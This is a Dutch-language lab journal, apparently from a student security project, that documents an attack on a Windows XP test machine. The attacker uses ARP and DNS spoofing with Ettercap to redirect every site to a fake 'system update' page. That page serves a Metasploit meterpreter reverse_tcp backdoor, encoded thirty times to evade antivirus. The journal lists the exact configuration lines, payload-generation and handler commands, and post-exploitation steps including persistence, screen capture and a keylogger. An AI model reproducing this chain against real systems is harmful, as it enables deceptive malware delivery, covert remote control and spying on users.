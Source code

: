 #02/01/2016

Doel van vandaag is om via een backdoor de controle te kunnen overnemen van ons victim. We zullen dit doen via Metasploit. Ook willen we dat de hack werkt in alle browsers (niet zoals vorig keer enkel IE).

Hoe gaan we dit doen? We zullen via een DNS spoof wijsmaken dat elke hostname zich bevind op het ip adres van de hacker! Dit doen we door middel van een MITM (Arp spoof). Elke keer de victim vraagt waar bevind google.com, facebook.be, ... zich antwoorden we dus. 

Tegelijk hosten we een website op de hacker (Kali PC), deze zal de victim zien op elke "site"! Op deze site zetten we een valse waarschuwing over niet up ge date systeem! We maken hem wijs dat we uit voorzorg de internettoegang ontzegd hebben. We bieden een update die zogezegd een oplossing biedt, maar eigenlijk is het een kwaadaarige payload met een backdoor in :)

We hebben dit eerst geprobeerd met MITMf, die zou ook een DNS spoof module moeten bevatten. [Dit is een blogpost](http://sign0f4.blogspot.be/2014/07/mitmf-update-spoof-plugin_23.html) die geschreven is door de maker van MITMf. Volgens mij is het gewoon verrouderd, want uiteraard werkt dit niet... Getest op apt-get versie en met de laatste versie op GitHub.

Heb ik maar besloten op Ettercap te gebruiken. We hebben nu geen nood om HTTPS te omzeilen. We gaan immers geen bestaande sites bezoeken. En we vallen een Windows XP computer aan met Firefox 12 / Internet Explorer 8. Dus geen nood om HSTS te omzeilen!

We hebben een paar tuturials gevolgd maar uiteraard werkte er enkele. [Deze video](https://www.youtube.com/watch?v=5xoFFIcUaIA) is diegene met de beste uitleg, staan enkele fouten in zoals de instellingen van etter.conf zijn niet nodig. Deze zijn enkel nodig wil je dat de victim nog de sites kan bezoeken, bij ons is dit niet nodig we serveren onze eigen site. 

Het grootte probleem was dat ik niet beschikte over het etter.dns bestand. Ik dacht geen probleem het niet dat ik het ging gebruiken (alles moet naar mijn computer, er moet dus maar 1 DNS entry in). Maar na alles juist in te stellen werkte het uiteraard niet.

Dan heb ik besloten om Ettercap te gebruiken via de terminal. Maar al snel was duidelijk dat de meeste tuturials out dated waren, commando's die niet meer werken of anders moesten gebruikt worden...

Ik ben ondertussen de tel kwijt geraakt hoevaak "werkende" tuturials niet werken bij ons. Blijkbaar is documentatie en compatibiliteit met oudere versies houden niet zo belangrijk. Ik (Brecht Carlier) was van plan hierover te bloggen, maar ik ben dit gewoon niet meer van plan. Als iemand binnen een jaar mijn post leest, is hij waarschijnlijk totaal niet meer correct....

Ik heb hierna besloten Ettercap te verwijderen *apt-get remove ettercap-common* om hierna terug te installeren *apt-get install ettercap-common*. Het resultaat de grafische versie van ettercap werkt niet (start niet meer op). Maar geen probleem we waren ervan overtuigd dat het wel ging werken als we de laptop herstarten. Bleek jammer genoeg niet het geval te zijn. Na nog talloze apt-get commando's begon de moed in onze schoenen te zaken. Toen heb ik besloten om via de source code ettercap (GitHub) ettercap te installeren. Er gebeurde iets toen we het opstarten maar daarna had ik nog nooit zoveel errors op één scherm gezien.

We waren het zo beu dat ik gewoon mijn laptop heb uitgezet. We hebben verder gedaan via Virtualbox. Daar hadden we wel al de etter.dns file staan, onze hoop steeg. Na alles juist te doen, werkte het nog steeds niet.

Na 5u verder hebben we letterlijk niets bereikt. We besluiten om even te stoppen dit gaat toch niet verder zo....

Mijn volgende plan was om gewoon volledig Kali opnieuw te installeren op mijn laptop. En ook ineens goed. Alles wat op mijn laptop stond (Windows 10, Windows Server 2012 R2, Linux Mint, Kali) heb ik verwijderd. En enkel Kali opnieuw opgezet. Alles terug geconfigureerd (taal, toetsenbord, ...)  en we waren terug up and running. Alles werkt terug normaal buiten de print screen toets.

Als eerste MITMf terug opnieuw geïnstalleerd (dit moet uiteraard eerst terug werken). En daarna alle stappen van Ettercap opnieuw uitgevoerd. Wonder boven wonder begonnen dinges te werken. Ik gebruikte eerst de standaard etter.dns file. Deze zal indien het IP adres van microsoft.com gevraagd wordt het IP doorsturen van linux.org (trololo). Wat er nu eigenlijk verkeerd was al dit tijd, we hebben geen idee.

Daarna hebben we de etter.dns file aangepast dat elke hostname zich bevind op onze Kali computer:

>\*&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;192.168.2.18

Nu voor we dit konden uittesten, moesten we uiteraard een webserver hebben draaien op onze Kali computer. Uiteraard doen we dit met apache!

> sudo service apache2 start

Nu onze webserver opstaat, passen we de index.html file (/var/www/html/) aan naar onze eigen wensen. We verzinnen een tekst, en voegen een download link toe. Voorlopig laten we deze even naar niets wijzen (href) we hebben onze backdoor nog niet gecreëerd. We testen de site door te surfen naar localhost op onze hacker (Kali). Het ziet er goed uit. Ik test even de site manueel op de Windows XP computer (surfen naar 192.168.2.18). Dit werkt ook.

We voeren ons DNS spoof aanval uit. Eerst dus ARP spoofing opzetten. Even verfieren of dit werkt op de Win XP computer d.m.v. arp -a. Alles werkt normaal ik ben instaat om pakketjes te sniffen (ik zie een dhcp pakketje voorbij komen en wat achtergrond http verkeer). Ik zet de dnsspoof plugin op. Ik flush voor de zekerheid de dns cache op de WinXP computer. En surf dan naar microsoft.com en ja hoor daar staat hij onze eigen mooie site! 

Er is nog een klein probleempje, als je bijvoorbeeld zoekt met google wordt de url aangepast met een zoek query. Deze url bestaat niet op onze server. Daar staat enkel een index.html pagina op. We moeten nog instellen dat als de site niet gevonden wordt op mijn server dat hij automatisch geredirect wordt naar de index.html pagina. 

Dit heb ik gedaan d.m.v. [fallbackresource](http://httpd.apache.org/docs/2.2/mod/mod_dir.html#fallbackresource). Dit kun je instellen in je apache settings.

> FallbackResource /index.html

Dit heb ik toegevoegd onder *DocumentRoot* in 000-default.conf in /etc/apache2/sites-available.</br>
Zo dit probleem is ook opgelost. Het maakt niet uit wat je invuld, je komt altijd terecht op onze website. Deel 1 van het plan is geslaagd.

Nu was het tijd voor Metasploit. We zullen gebruik maken de reverse_tcp exploit. 

**TODO: reverse_tcp explout uitleggen!**

We moeten deze exploit in een uitvoerbaar bestand steken, we zullen dus een .exe genereren.

> use windows/meterpreter/reverse_tcp </br>
> set LHOST 192.168.2.18 </br>
> generate -e x86/shikata_ga_nai -i 30 -t exe -f win32update1536.exe

De '-e' staat voor enconding, d.m.v. de '-i 30' specifieren dat we de .exe 30 keer encoderen. Zo wordt de exploit moeilijker vindbaar voor virusscaners. Tegenwoordig (vanaf +- 2010, tijd gaat zo snel) zal dit niet meer voldoende zijn. Je kunt echter wel een paar lagen van ecnyptie toevoegen aan het bestand. We hebben dit niet gedaan, maar er zijn hier genoeg tuturials te vinden op het internet.

De *"-t echo"* specifiert dat er een .exe moet uit komen. We geven onze backdoor een naam dit doen we d.m.v. *'-f win32update1536.exe"*.

We hebben geen poort ingesteld, dit betekend dat we gebruik maken van de standaard poort 4444. Je kunt trouwens zien bij elke backdoor welke informatie verplicht moet ingesteld worden d.m.v. het commando *"info"*. Bij ons was enkel LHOST verplicht (eigen IP adres van de hacker).

Bron:
- [Forum met uitleg](https://evilzone.org/tutorials/metasploit-payload-tutorial/)
- [Officiële documentatie](https://www.offensive-security.com/metasploit-unleashed/generating-payloads/)

Nu we onze backdoor gemaakt hebben (ons gegeneerd .exe bestand) plaatsen we deze in de /var/www/html/ map. We vullen als path voor onze link (href) de naam van de backdoor in. Wij hebben deze win32update1536.exe genoemd. Indien je nu klikt op de link zal je de file downloaden.

We moeten nu onze metasploit zo instellen dat we luisteren naar onze backdoor. 

> msfconsole </br>
> use explout/multi/handler </br>
> set PAYLOAD windows/meterpreter/reverse_tcp </br>
> set LHOST 192.168.2.18 </br>
> exploit


Ik heb geen poort ingesteld omdat we de standaard poort gebruikt hebben (4444). Vanaf nu luisteren we naar binnenkomende response van onze backdoor. We wachten dus tot iemand de file download.

Ik test het uit. Je ziet dat de metasploit console reageert, maar hij kan geen meterpreter sessie starten. (Niets gaat van de 1ste keer). De fout was zeer bizar. De sessie starte maar stopte een paar minuten later van een timeout (EOFError). Ik kon maar één link vinden met een gelijkaardig probleem [LINK](https://community.rapid7.com/thread/2796). Maar de suggesties loste het probleem niet op. Na een paar keer proberen had ik een andere "error". Hij bleef hangen op "sending stage metasploit"...

Dit probleem kwam frequenter voor op google. Maar ook hier vond ik niets dat van toepassing is van mijn probleem. Na een paar keer proberen werkte het uit het niets ineens. (Kali dacht waarschijnlijk dat ik tijd teveel heb). Ach ja ik mag niet klagen het werkt!

Zo vanaf nu kunnen we alles wat we met metasploit kunnen, uitvoeren. Het eerste wat je best doet is de backdoor "verplaatsen" naar een andere .exe (migrate). Zie gast sessie (Ernst & Young). Je zorgt er best ook voor dat je de backdoor automatisch wordt uitgevoerd nadat Windows herstart wordt, anders moet hij de file terug downloaden voor je toegang kunt krijgen.

We hebben hierna wat rond gespeeld met Metasploit. Wat basis commando's:
* download => Bestand downoaden op victim
* getuid => Kijken als welke "gebruiker" onze backdoor runt
* ipconfig => ipconfig uitvoeren op victim
* ps => "Taakbeheer", kijken welke programma's er uitgevoerd worden op de victim
* webcam_snap => Foto nemen via webcam. Kreeg de drivers niet werkend op Windows XP (jammeeuuurr)

Voor nog meer basis commando's: [KLIK HIER](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

We hebben ook nog printscreen genomen van de victim, zo kunnen we constant zien wat de gebruiker doet. Ook hebben we een keylogger toegevoegd aan onze backdoor. Nu kunnen we ook zien wat de gebruiker constant invuld!

**TODO: Dit nog verder uitleggen.**


### Geleerde commandos
Bestanden zoeken (zoek naar etter.dns)
> locate etter.dns

####TODO: 
* 27112015 -> commando's verklaren 
* 29122015 -> verder afmaken
* mail script
* 28122015 -> ether.conf
